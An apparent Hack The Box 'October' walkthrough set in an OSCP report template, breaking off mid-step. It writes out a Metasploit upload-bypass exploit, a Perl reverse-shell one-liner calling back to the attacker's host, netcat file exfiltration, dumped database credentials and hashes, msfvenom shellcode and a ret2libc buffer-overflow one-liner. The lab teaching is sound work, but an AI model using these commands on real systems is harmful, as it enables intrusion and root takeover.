



# Pentesting Report - October 

## Introduction

The Offensive Security Exam penetration test report contains all efforts that were conducted in order to pass the Offensive Security course.
This report should contain all items that were used to pass the overall exam.
This report will be graded from a standpoint of correctness and fullness to all aspects of the  exam.
The purpose of this report is to ensure that the student has a full understanding of penetration testing methodologies as well as the technical knowledge to pass the qualifications for the Offensive Security Certified Professional.

## Objective

The objective of this assessment is to perform an internal penetration test against the Offensive Security Exam network.
The student is tasked with following methodical approach in obtaining access to the objective goals.
This test should simulate an actual penetration test and how you would start from beginning to end, including the overall report.
An example page has already been created for you at the latter portions of this document that should give you ample information on what is expected to pass this course.
Use the sample report as a guideline to get you through the reporting.

## Requirements

The student will be required to fill out this penetration testing report and include the following sections:

- Overall High-Level Summary and Recommendations (non-technical)
- Methodology walkthrough and detailed outline of steps taken
- Each finding with included screenshots, walkthrough, sample code, and proof.txt if applicable.
- Any additional items that were not included

# Sample Report - High-Level Summary

John Doe was tasked with performing an internal penetration test towards Offensive Security Labs.
An internal penetration test is a dedicated attack against internally connected systems.
The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Offensive Security's internal lab systems - the **THINC.local** domain.
John's overall objective was to evaluate the network, identify systems, and exploit flaws while reporting the findings back to Offensive Security.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Offensive Security's network.
When performing the attacks, John was able to gain access to multiple machines, primarily due to outdated patches and poor security configurations.
During the testing, John had administrative level access to multiple systems.
All systems were successfully exploited and access granted.
These systems as well as a brief description on how access was obtained are listed below:

- Exam Trophy 1 - Got in through X
- Exam Trophy 2 - Got in through X

## Sample Report - Recommendations

John recommends patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future.
One thing to remember is that these systems require frequent patching and once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.

# Sample Report - Methodologies

John utilized a widely adopted approach to performing penetration testing that is effective in testing how well the Offensive Security Labs and Exam environments are secure.
Below is a breakout of how John was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Sample Report - Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, John was tasked with exploiting the exam network.
The specific IP addresses were:

**Exam Network**

Host: 10.10.10.16

## Sample Report - Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

# Nmap scan host

An nmap scan shows only 2 ports are open:

```
sudo nmap -sC -sV -p- -oA nmap/october-fulltcp 10.10.10.16
# Nmap 7.91 scan initiated Mon Mar 15 22:38:03 2021 as: nmap -sC -sV -p- -oA nmap/october-fulltcp 10.10.10.16
Nmap scan report for 10.10.10.16
Host is up (0.028s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 79:b1:35:b6:d1:25:12:a3:0c:b5:2e:36:9c:33:26:28 (DSA)
|   2048 16:08:68:51:d1:7b:07:5a:34:66:0d:4c:d0:25:56:f5 (RSA)
|   256 e3:97:a7:92:23:72:bf:1d:09:88:85:b6:6c:17:4e:85 (ECDSA)
|_  256 89:85:90:98:20:bf:03:5d:35:7f:4a:a9:e1:1b:65:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Potentially risky methods: PUT PATCH DELETE
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: October CMS - Vanilla
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar 15 22:39:56 2021 -- 1 IP address (1 host up) scanned in 113.85 seconds
```
On browsing the main website we see the following page:


Gobuster gives the following files and directories:

```
$ gobuster dir -u http://10.10.10.16 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -o gobuster/main-raft-medium-files.log
/index.php (Status: 200)
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.html (Status: 403)
/.html (Status: 403)
/.html.txt (Status: 403)
/.html.html (Status: 403)
/.html.php (Status: 403)
/.php (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.html (Status: 403)
/.htm (Status: 403)
/.htm.php (Status: 403)
/.htm.txt (Status: 403)
/.htm.html (Status: 403)
/.htpasswds (Status: 403)
/.htpasswds.php (Status: 403)
/.htpasswds.txt (Status: 403)
/.htpasswds.html (Status: 403)
```

```
$ gobuster dir -u http://10.10.10.16 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -o gobuster/main-raft-medium-dirs.log
/modules (Status: 301)
/plugins (Status: 301)
/themes (Status: 301)
/forum (Status: 200)
/blog (Status: 200)
/config (Status: 301)
/error (Status: 200)
/account (Status: 200)
/tests (Status: 301)
/backend (Status: 302)
/Account (Status: 200)
/Forum (Status: 200)
/storage (Status: 301)
/forgot-password (Status: 200)
/vendor (Status: 301)
/server-status (Status: 403)
/BLOG (Status: 200)
/FORUM (Status: 200)
```
						
When we browse to the url http://10.10.10.16/backend we are redirected to the login page:



We can login on this page with username, password = admin/admin

With searchsploit we find the following exploits:

```
$ searchsploit october               
---------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                |  Path
---------------------------------------------------------------------------------------------- ---------------------------------
October CMS - Upload Protection Bypass Code Execution (Metasploit)                            | php/remote/47376.rb
October CMS 1.0.412 - Multiple Vulnerabilities                                                | php/webapps/41936.txt
October CMS < 1.0.431 - Cross-Site Scripting                                                  | php/webapps/44144.txt
October CMS Build 465 - Arbitrary File Read Exploit (Authenticated)                           | php/webapps/49045.sh
October CMS User Plugin 1.4.5 - Persistent Cross-Site Scripting                               | php/webapps/44546.txt
OctoberCMS 1.0.425 (Build 425) - Cross-Site Scripting                                         | php/webapps/42978.txt
OctoberCMS 1.0.426 (Build 426) - Cross-Site Request Forgery                                   | php/webapps/43106.txt
---------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

The Upload Protection Bypass Code Execution exploit in Metasploit looks very promising.

We fire up metasploit and search the exploit, set the opions, and test the exploit:

```
$ sudo msfdb run                      
[sudo] password for user:
...
       =[ metasploit v6.0.31-dev                          ]
+ -- --=[ 2101 exploits - 1131 auxiliary - 357 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Enable verbose logging with set VERBOSE 
true

msf6 >search october

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  auxiliary/admin/http/vbulletin_upgrade_admin      2013-10-09       normal     No     vBulletin Administrator Account Creation
   1  auxiliary/scanner/http/ssl_version                2014-10-14       normal     No     HTTP SSL/TLS Version Detection (POODLE scanner)
   2  auxiliary/sqli/oracle/dbms_cdc_ipublish           2008-10-22       normal     No     Oracle DB SQL Injection via SYS.DBMS_CDC_IPUBLISH.ALTER_HOTLOG_INTERNAL_CSOURCE
   3  auxiliary/sqli/oracle/dbms_cdc_publish            2008-10-22       normal     No     Oracle DB SQL Injection via SYS.DBMS_CDC_PUBLISH.ALTER_AUTOLOG_CHANGE_SOURCE
   4  auxiliary/sqli/oracle/lt_findricset_cursor        2007-10-17       normal     No     Oracle DB SQL Injection via SYS.LT.FINDRICSET Evil Cursor Method
   5  exploit/multi/http/october_upload_bypass_exec     2017-04-25       excellent  Yes    October CMS Upload Protection Bypass Code Execution
   6  exploit/multi/misc/legend_bot_exec                2015-04-27       excellent  Yes    Legend Perl IRC Bot Remote Code Execution
   7  exploit/windows/browser/java_docbase_bof          2010-10-12       great      No     Sun Java Runtime New Plugin docbase Buffer Overflow
   8  exploit/windows/browser/ms13_080_cdisplaypointer  2013-10-08       normal     No     MS13-080 Microsoft Internet Explorer CDisplayPointer Use-After-Free


Interact with a module by name or index. For example info 8, use 8 or use exploit/windows/browser/ms13_080_cdisplaypointer

msf6 > use 5
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/october_upload_bypass_exec) > set password admin
password => admin
msf6 exploit(multi/http/october_upload_bypass_exec) > set lhost tun0
lhost => 10.10.14.28
msf6 exploit(multi/http/october_upload_bypass_exec) > options

Module options (exploit/multi/http/october_upload_bypass_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   admin            yes       Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.16      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base October CMS directory path
   USERNAME   admin            yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.28      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   October CMS v1.0.412


msf6 exploit(multi/http/october_upload_bypass_exec) > run

[*] Started reverse TCP handler on 10.10.14.28:4444 
[+] Authentication successful: admin:admin
[*] Sending stage (39282 bytes) to 10.10.10.16
[*] Meterpreter session 1 opened (10.10.14.28:4444 -> 10.10.10.16:44234) at 2021-03-15 23:39:10 +0100
[+] Deleted ErsMolez.php5

meterpreter > ls -l
Listing: /var/www/html/cms/storage/app/media
============================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100664/rw-rw-r--  14     fil   2017-04-06 23:48:04 +0200  .gitignore
100644/rw-r--r--  27035  fil   2017-05-17 15:47:02 +0200  dr.php5
```

We use this shell to create an additional reverse shell (in case we have problems with reverse shell, to fall back to the original shell) 

```
perl -e 'use Socket;$i="10.10.14.28";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

After receiving the new reverse shell We stabelize the shell:

```
$ nc -lnvp 4444                            
listening on [any] 4444 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.10.16] 44294
sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash");'
www-data@october:/home/harry$ ls -al
ls -al
total 5044
drwxr-xr-x 4 harry harry    4096 Apr 21  2017 .
drwxr-xr-x 3 root  root     4096 Apr 20  2017 ..
-rw------- 1 root  root        1 Dec 24  2017 .bash_history
-rw-r--r-- 1 harry harry     220 Apr 20  2017 .bash_logout
-rw-r--r-- 1 harry harry    3637 Apr 20  2017 .bashrc
drwx------ 2 harry harry    4096 Apr 20  2017 .cache
drwxr-xr-x 3 root  root     4096 Apr 20  2017 .composer
-rw------- 1 root  root       10 May 17  2017 .nano_history
-rw-r--r-- 1 harry harry     675 Apr 20  2017 .profile
-rw-rw-r-- 1 harry harry 5123369 Apr 20  2017 october-1.0.412.tar.gz
-r--r--r-- 1 harry harry      33 Apr 21  2017 user.txt
```

We can retrieve the user flag:

```
www-data@october:/home/harry$ cat user.txt 
cat user.txt 
29161ca87aa3d34929dc46efc40c89c0
www-data@october:/home/harry$ 
```



We download linpeas.sh on the box, run it and check the output:

We find the credentials for the mysql database backend for the October CMS:

```
www-data@october:/home/harry$ cat user.txt 
cat user.txt 
29161ca87aa3d34929dc46efc40c89c0
www-data@october:/home/harry$ 
```

In the file '/var/www/html/cms/config/config.php' we find the following credential for mysql:

```
    'mysql' => [
            'driver'    => 'mysql',
            'host'      => 'localhost',
            'port'      => '',
            'database'  => 'october',
            'username'  => 'october',
            'password'  => 'OctoberCMSPassword!!',
            'charset'   => 'utf8',
            'collation' => 'utf8_unicode_ci',
            'prefix'    => '',
        ],

```

The version of mysql:

```
$ mysql --version
mysql  Ver 14.14 Distrib 5.5.55, for debian-linux-gnu (i686) using readline 6.3
```

We login into the mysql database and find the accounts we entered:

```
$ mysql --host=localhost --user=october --password='OctoberCMSPassword!!' october
 --password='OctoberCMSPassword!!' october
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 20623
Server version: 5.5.55-0ubuntu0.14.04.1 (Ubuntu)

Copyright (c) 2000, 2017, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show tables;
show tables;
+-------------------------------+
| Tables_in_october             |
+-------------------------------+
| backend_access_log            |
| backend_user_groups           |
| backend_user_preferences      |
| backend_user_throttle         |
| backend_users                 |
| backend_users_groups          |
| cache                         |
| cms_theme_data                |
| cms_theme_logs                |
| deferred_bindings             |
| failed_jobs                   |
| jobs                          |
| migrations                    |
| one47_filelist_filelists      |
| rainlab_blog_categories       |
| rainlab_blog_posts            |
| rainlab_blog_posts_categories |
| rainlab_forum_channels        |
| rainlab_forum_members         |
| rainlab_forum_posts           |
| rainlab_forum_topic_followers |
| rainlab_forum_topics          |
| rainlab_user_mail_blockers    |
| sessions                      |
| system_event_logs             |
| system_files                  |
| system_mail_layouts           |
| system_mail_templates         |
| system_parameters             |
| system_plugin_history         |
| system_plugin_versions        |
| system_request_logs           |
| system_revisions              |
| system_settings               |
| user_groups                   |
| user_throttle                 |
| users                         |
| users_groups                  |
+-------------------------------+
38 rows in set (0.00 sec)

mysql> describe users;
describe users;
+---------------------+------------------+------+-----+---------+----------------+
| Field               | Type             | Null | Key | Default | Extra          |
+---------------------+------------------+------+-----+---------+----------------+
| id                  | int(10) unsigned | NO   | PRI | NULL    | auto_increment |
| name                | varchar(255)     | YES  |     | NULL    |                |
| email               | varchar(255)     | NO   | UNI | NULL    |                |
| password            | varchar(255)     | NO   |     | NULL    |                |
| activation_code     | varchar(255)     | YES  | MUL | NULL    |                |
| persist_code        | varchar(255)     | YES  |     | NULL    |                |
| reset_password_code | varchar(255)     | YES  | MUL | NULL    |                |
| permissions         | text             | YES  |     | NULL    |                |
| is_activated        | tinyint(1)       | NO   |     | 0       |                |
| activated_at        | timestamp        | YES  |     | NULL    |                |
| last_login          | timestamp        | YES  |     | NULL    |                |
| created_at          | timestamp        | YES  |     | NULL    |                |
| updated_at          | timestamp        | YES  |     | NULL    |                |
| username            | varchar(255)     | YES  | UNI | NULL    |                |
| surname             | varchar(255)     | YES  |     | NULL    |                |
| deleted_at          | timestamp        | YES  |     | NULL    |                |
| last_seen           | timestamp        | YES  |     | NULL    |                |
| is_guest            | tinyint(1)       | NO   |     | 0       |                |
| is_superuser        | tinyint(1)       | NO   |     | 0       |                |
+---------------------+------------------+------+-----+---------+----------------+
19 rows in set (0.00 sec)

mysql> select name,email,password,username from users;
select name,email,password,username from users;
+--------+-----------------+--------------------------------------------------------------+-----------------+
| name   | email           | password                                                     | username        |
+--------+-----------------+--------------------------------------------------------------+-----------------+
| aaa    | test@test.com   | $2y$10$4BjH4v.qVfYdQvQDE92D1.WeEeDKk/KnF7o0tmwQGHsNYoKsuomZO | test@test.com   |
| test   | test@aaa.com    | $2y$10$osIpPHjAEF93srSsntD24.P8Rji0PNzbOLz6YtgRKXAcqAPgaH.LW | test@aaa.com    |
| admin  | test4@test.com  | $2y$10$yZ6KvG2tsy1pfFqNAnEpo.Fz8tWV.ozjwITGAUzM5a8RcBT15BsuS | test4@test.com  |
+--------+-----------------+--------------------------------------------------------------+-----------------+
4 rows in set (0.00 sec)
```

We don't find any additional credentials in the database we can reuse to login.

In the linpeas.sh this also stands out:

```
-rwsr-xr-x 1 root    root       7.3K Apr 21  2017 /usr/local/bin/ovrflw
  --- Trying to execute /usr/local/bin/ovrflw with strace in order to look for hijackable libraries...
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/i386-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
```

Clearly /usr/local/bin/ovrflw is the intended privilege escalation path. 
Looking for source files we can't find any:

```
www-data@october:/dev/shm$ find / -name "*ovrflw*" 2>/dev/null
find / -name "*ovrflw*" 2>/dev/null
/usr/local/bin/ovrflw
www-data@october:/dev/shm$ /usr/local/bin/ovrflw 
/usr/local/bin/ovrflw 
Syntax: /usr/local/bin/ovrflw <input string>
www-data@october:/dev/shm$ ls -l /usr/local/bin/ovrflw
ls -l /usr/local/bin/ovrflw
-rwsr-xr-x 1 root root 7377 Apr 21  2017 /usr/local/bin/ovrflw
```

So this is a binary exploitation path, that would have to be exploited with a buffer overflow, as the name suggest.
We download the file back to our machine:

```
www-data@october:/dev/shm$ nc -w 3 10.10.14.28 6667 < /usr/local/bin/ovrflw
nc -w 3 10.10.14.28 6667 < /usr/local/bin/ovrflw
www-data@october:/dev/shm$ md5sum /usr/local/bin/ovrflw
md5sum /usr/local/bin/ovrflw
0e531949d891fd56a2ead07610cc5ded  /usr/local/bin/ovrflw
```

```
$ nc -lnvp 6667 > ovrflw                                                                                                  1 ⨯
listening on [any] 6667 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.10.16] 35068
                                                                                                                                
$ md5sum ovrflw 
0e531949d891fd56a2ead07610cc5ded  ovrflw
```

Looking at the ovrflw binary we find a simple check if a single argument is provided and if matched a single execution of a overflowable strcpy:

```
$ radare2 ./ovrflw                                                                                                      139 ⨯
[0x08048380]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0x08048380]> pdf @main
            ; DATA XREF from entry0 @ 0x8048397
┌ 79: int main (char **argv, char **envp);
│           ; arg char **argv @ ebp+0x8
│           ; arg char **envp @ ebp+0xc
│           ; var char *src @ esp+0x4
│           ; var char *dest @ esp+0x1c
│           0x0804847d      55             push ebp
│           0x0804847e      89e5           mov ebp, esp
│           0x08048480      83e4f0         and esp, 0xfffffff0
│           0x08048483      83c480         add esp, 0xffffff80
│           0x08048486      837d0801       cmp dword [argv], 1
│       ┌─< 0x0804848a      7f21           jg 0x80484ad
│       │   0x0804848c      8b450c         mov eax, dword [envp]
│       │   0x0804848f      8b00           mov eax, dword [eax]
│       │   0x08048491      89442404       mov dword [src], eax
│       │   0x08048495      c70424608504.  mov dword [esp], str.Syntax:__s__input_string__n ; [0x8048560:4]=0x746e7953 ; "Syntax: %s <input string>\n" ; const char *format
│       │   0x0804849c      e88ffeffff     call sym.imp.printf         ; int printf(const char *format)
│       │   0x080484a1      c70424000000.  mov dword [esp], 0          ; int status
│       │   0x080484a8      e8b3feffff     call sym.imp.exit           ; void exit(int status)
│       │   ; CODE XREF from main @ 0x804848a
│       └─> 0x080484ad      8b450c         mov eax, dword [envp]
│           0x080484b0      83c004         add eax, 4
│           0x080484b3      8b00           mov eax, dword [eax]
│           0x080484b5      89442404       mov dword [src], eax        ; const char *src
│           0x080484b9      8d44241c       lea eax, [dest]
│           0x080484bd      890424         mov dword [esp], eax        ; char *dest
│           0x080484c0      e87bfeffff     call sym.imp.strcpy         ; char *strcpy(char *dest, const char *src)
│           0x080484c5      b800000000     mov eax, 0
│           0x080484ca      c9             leave
└           0x080484cb      c3             ret
```

Some tests to find the size of the buffer overflow string needed:

```
┌──(user㉿kali)-[~/hackthebox/hackthebox/october/ovrflw]
└─$ ./ovrflw aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa   
                                                                                                                                
┌──(user㉿kali)-[~/hackthebox/hackthebox/october/ovrflw]
└─$ ./ovrflw aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa  
zsh: segmentation fault  ./ovrflw 
                                                                                                                                
┌──(user㉿kali)-[~/hackthebox/hackthebox/october/ovrflw]
└─$ ./ovrflw aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabcd

zsh: segmentation fault  ./ovrflw 
```

```
$ radare2 -d ./ovrflw  aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabcd
Process with PID 4143 started...
= attach 4143 4143
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
glibc.fc_offset = 0x00148
[0xf7fd20b0]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for vtables
[TOFIX: aaft can't run in debugger mode.ions (aaft)
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0xf7fd20b0]> dc 
[+] SIGNAL 11 errno=0 addr=0x64636261 code=1 si_pid=1684234849 ret=0
[0x64636261]> dr 
eax = 0x00000000
ebx = 0x00000000
ecx = 0xffab1360
edx = 0xffab0278
esi = 0xf7fa9000
edi = 0xf7fa9000
esp = 0xffab0280
ebp = 0x61616161
eip = 0x64636261
eflags = 0x00010202
oeax = 0xffffffff
```

```
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
                                                                                                                                
┌──(user㉿kali)-[~/hackthebox/hackthebox/october/ovrflw]
└─$ radare2 -d ./ovrflw Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Process with PID 4778 started...
= attach 4778 4778
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
glibc.fc_offset = 0x00148
[0xf7f4a0b0]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for vtables
[TOFIX: aaft can't run in debugger mode.ions (aaft)
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0xf7f4a0b0]> dc 
[+] SIGNAL 11 errno=0 addr=0x64413764 code=1 si_pid=1681995620 ret=0
[0x64413764]> dr
eax = 0x00000000
ebx = 0x00000000
ecx = 0xffeb9360
edx = 0xffeb828c
esi = 0xf7f21000
edi = 0xf7f21000
esp = 0xffeb8240
ebp = 0x41366441
eip = 0x64413764
eflags = 0x00010202
oeax = 0xffffffff
[0x64413764]> q
Do you want to quit? (Y/n) y
Do you want to kill the process? (Y/n) y

```

We find the hex bytes 0x64413764 in the eip register and we use this value to look up the offset

```                                                                                                                                
┌──(user㉿kali)-[~/hackthebox/hackthebox/october/ovrflw]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x64413764
[*] Exact match at offset 112
```

Generating exploit code:

```
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.28 LPORT=4242 -a x86 -f py
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of py file: 613 bytes
buf =  b""
buf += b"\x6a\x0a\x5e\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\xb0"
buf += b"\x66\x89\xe1\xcd\x80\x97\x5b\x68\x0a\x0a\x0e\x1c\x68"
buf += b"\x02\x00\x10\x92\x89\xe1\x6a\x66\x58\x50\x51\x57\x89"
buf += b"\xe1\x43\xcd\x80\x85\xc0\x79\x19\x4e\x74\x3d\x68\xa2"
buf += b"\x00\x00\x00\x58\x6a\x00\x6a\x05\x89\xe3\x31\xc9\xcd"
buf += b"\x80\x85\xc0\x79\xbd\xeb\x27\xb2\x07\xb9\x00\x10\x00"
buf += b"\x00\x89\xe3\xc1\xeb\x0c\xc1\xe3\x0c\xb0\x7d\xcd\x80"
buf += b"\x85\xc0\x78\x10\x5b\x89\xe1\x99\xb2\x6a\xb0\x03\xcd"
buf += b"\x80\x85\xc0\x78\x02\xff\xe1\xb8\x01\x00\x00\x00\xbb"
buf += b"\x01\x00\x00\x00\xcd\x80"
```

```

$ gdb /usr/local/bin/ovrflw -q
gdb /usr/local/bin/ovrflw -q
Reading symbols from /usr/local/bin/ovrflw...(no debugging symbols found)...done.
(gdb) b main
b main
Breakpoint 1 at 0x8048480
(gdb) p system
p system
No symbol table is loaded.  Use the "file" command.
(gdb) r
r
Starting program: /usr/local/bin/ovrflw 

Breakpoint 1, 0x08048480 in main ()
(gdb) p system
p system
$1 = {<text variable, no debug info>} 0xb75f1310 <__libc_system>
(gdb) find 0xb75f1310, +9999999, "/bin/sh"
find 0xb75f1310, +9999999, "/bin/sh"
0xb7713bac
warning: Unable to access 16000 bytes of target memory at 0xb775df34, halting search.
1 pattern found.
(gdb) x/s 0xb7713bac
x/s 0xb7713bac
0xb7713bac:     "/bin/sh"
(gdb) p exit
p exit
$2 = {<text variable, no debug info>} 0xb75e4260 <__GI_exit>
(gdb) 
```

```
system 0xb75f1310
exit 0xb75e4260
shell 0xb7713bac
```

Writing the exploit code:

```
while true; do /usr/local/bin/ovrflw $(python -c 'print "A"*112+"\x10\x13\x5f\xb7\x60\x42\x5e\xb7\xac\x3b\x71\xb7"'); done
```

We execute this code on the box:

```
